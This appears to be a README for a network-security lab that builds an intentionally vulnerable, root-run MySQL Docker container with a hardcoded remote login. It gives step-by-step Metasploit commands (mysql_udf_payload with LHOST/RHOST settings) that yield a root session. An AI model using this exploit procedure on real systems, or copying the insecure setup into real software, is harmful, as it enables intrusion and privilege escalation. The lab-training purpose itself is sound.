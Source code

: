 # Application overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Runtime environment setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/netsec-db/main/netsecdb-UbuntuServerX86-64.sh
    $ chmod +x netsecdb-UbuntuServerX86-64.sh
    $ ./netsec-db-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd netsecdb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tnetsecdb .
    $ docker run -d --name netsecdb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tnetsecdb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it netsecdb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    This script creates the following remote user: "tiaan.jerjerrod" with the password "doubleEFFORT!!"
# Run the exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME tiaan.jerjerrod
    > set PASSWORD doubleEFFORT!!
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    root
    ```
